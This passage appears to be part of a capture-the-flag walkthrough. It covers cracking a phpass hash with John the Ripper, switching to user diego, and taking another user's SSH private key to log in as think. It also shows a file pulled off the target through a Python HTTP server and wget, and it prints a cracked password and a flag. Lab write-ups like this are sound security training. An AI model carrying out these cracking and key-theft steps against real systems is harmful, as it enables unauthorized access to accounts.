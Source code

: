 Save diego's hash to a file, e.g., diego_hash.txt
john --format=phpass --wordlist=/usr/share/wordlists/rockyou.txt diego_hash.txt

The cracked password for diego was found to be sandiegocalifornia.
Switching User to diego and Finding user.txt

With diego's password, it was possible to switch user from www-data to diego.

su diego
Password: sandiegocalifornia

After successfully switching, the user.txt flag was located in diego's home directory.

cat user.txt

User Flag: 45edaec653ff9ee06236b7ce72b86963
# 5. Privilege Escalation to think

Further enumeration was performed to identify a path to higher privileges.
Locating think's SSH Private Key

While exploring diego's environment, it was discovered that the user think had an SSH private key (id_rsa) stored in their .ssh directory.

cd /home/think/.ssh/
cat id_rsa

The contents of id_rsa were copied.
Using the SSH Key to Login as think

The copied id_rsa content was saved to a file on the attacking machine (e.g., think_id_rsa). The permissions of the private key file were then set correctly to 600.

chmod 600 think_id_rsa

Finally, SSH was used to log in as think using the private key.

ssh -i think_id_rsa think@10.10.109.27

This granted a shell as the user think.
# 6. Privilege Escalation to xavi

The next step involved finding credentials for another user to continue the privilege escalation chain.
Discovering and Cracking wordpress.old.zip

During enumeration, a file named wordpress.old.zip was found in gege's home directory. This file was likely a backup of the old WordPress installation. To retrieve it, a Python HTTP server was started on the target.

On the target machine (as think, assuming appropriate file access):

python3 -m http.server 9000

Then, on the attacking machine, the file was downloaded:

wget http://10.10.109.27:9000/wordpress.old.zip
